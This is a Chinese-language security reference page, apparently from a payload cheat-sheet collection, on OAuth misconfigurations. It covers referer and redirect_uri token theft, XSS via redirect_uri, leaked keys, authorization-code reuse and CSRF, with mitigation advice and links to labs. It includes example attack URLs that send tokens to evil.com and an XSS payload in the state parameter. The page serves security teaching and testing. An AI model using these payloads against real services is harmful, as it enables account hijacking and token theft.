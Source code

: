 # OAuth 配置错误

> OAuth 是一个广泛使用的授权框架，允许第三方应用程序在不暴露用户凭据的情况下访问用户数据。然而，OAuth 的不当配置和实现可能导致严重的安全漏洞。本文档探讨了常见的 OAuth 配置错误、潜在的攻击向量以及缓解这些风险的最佳实践。

## 概述

- [通过 referer 窃取 OAuth Token](#通过-referer-窃取-oauth-token)
- [通过 redirect_uri 获取 OAuth Token](#通过-redirect_uri-获取-oauth-token)
- [通过 redirect_uri 执行 XSS](#通过-redirect_uri-执行-xss)
- [OAuth 私钥泄露](#oauth-私钥泄露)
- [违反授权码规则](#违反授权码规则)
- [跨站请求伪造](#跨站请求伪造)
- [实验室](#实验室)
- [参考文献](#参考文献)

## 通过 referer 窃取 OAuth Token

> 如果你有 HTML 注入但无法获得 XSS？该站点上是否有任何 OAuth 实现？如果是这样，设置一个指向服务器的 img 标签，并查看是否可以通过登录后的重定向等方式（例如重定向等）到受害者那里以通过 referer 窃取 OAuth Token - [@abugzlife1](https://twitter.com/abugzlife1/status/1125663944272748544)

## 通过 redirect_uri 获取 OAuth Token

重定向到受控域以获取访问令牌

```powershell
https://www.example.com/signin/authorize?[...]&redirect_uri=https://demo.example.com/loginsuccessful
https://www.example.com/signin/authorize?[...]&redirect_uri=https://localhost.evil.com
```

重定向到接受的开放 URL 以获取访问令牌

```powershell
https://www.example.com/oauth20_authorize.srf?[...]&redirect_uri=https://accounts.google.com/BackToAuthSubTarget?next=https://evil.com
https://www.example.com/oauth2/authorize?[...]&redirect_uri=https%3A%2F%2Fapps.facebook.com%2Fattacker%2F
```

OAuth 实现不应白名单整个域，而应仅限于几个 URL，以便“redirect_uri”不能指向开放重定向器。

有时需要将范围更改为无效范围以绕过对 redirect_uri 的过滤：

```powershell
https://www.example.com/admin/oauth/authorize?[...]&scope=a&redirect_uri=https://evil.com
```

## 通过 redirect_uri 执行 XSS

```powershell
https://example.com/oauth/v1/authorize?[...]&redirect_uri=data%3Atext%2Fhtml%2Ca&state=<script>alert('XSS')</script>
```

## OAuth 私钥泄露

某些 Android/iOS 应用程序可以被反编译，并且可以访问 OAuth 私钥。

## 违反授权码规则

> 客户端不得多次使用授权码。

如果授权码被多次使用，授权服务器必须拒绝请求，并且在可能的情况下应撤销基于该授权码之前颁发的所有令牌。

## 跨站请求伪造

未检查 OAuth 回调中有效 CSRF 令牌的应用程序易受攻击。这可以通过初始化 OAuth 流并拦截回调 (`https://example.com/callback?code=AUTHORIZATION_CODE`) 来利用。此 URL 可用于 CSRF 攻击。

> 客户端必须为其重定向 URI 实现 CSRF 保护。这通常通过要求发送到重定向 URI 端点的任何请求都包括绑定到用户代理已认证状态的值来实现。客户端应利用“state”请求参数在发起授权请求时将此值传递给授权服务器。

## 实验室

- [PortSwigger - 通过 OAuth 隐式流绕过身份验证](https://portswigger.net/web-security/oauth/lab-oauth-authentication-bypass-via-oauth-implicit-flow)
- [PortSwigger - 强制 OAuth 个人资料链接](https://portswigger.net/web-security/oauth/lab-oauth-forced-oauth-profile-linking)
- [PortSwigger - 通过 redirect_uri 劫持 OAuth 帐户](https://portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri)
- [PortSwigger - 通过代理页面窃取 OAuth 访问令牌](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page)
- [PortSwigger - 通过开放重定向窃取 OAuth 访问令牌](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect)

## 参考文献

- [你的所有 Paypal OAuth Token 都属于我 - asanso - 2016年11月28日](http://blog.intothesymmetry.com/2016/11/all-your-paypal-tokens-belong-to-me.html)
- [OAuth 2 - 我如何再次黑客攻击 Facebook（...并且会窃取有效的访问令牌） - asanso - 2014年4月8日](http://intothesymmetry.blogspot.ch/2014/04/oauth-2-how-i-have-hacked-facebook.html)
- [我如何再次黑客攻击 Github - Egor Homakov - 2014年2月7日](http://homakov.blogspot.ch/2014/02/how-i-hacked-github-again.html)
- [微软如何将你的数据交给 Facebook……以及其他人 - Andris Atteka - 2014年9月16日](http://andrisatteka.blogspot.ch/2014/09/how-microsoft-is-giving-your-data-to.html)
- [绕过 Periscope 管理面板中的 Google 身份验证 - Jack Whitton - 2015年7月20日](https://whitton.io/articles/bypassing-google-authentication-on-periscopes-admin-panel/)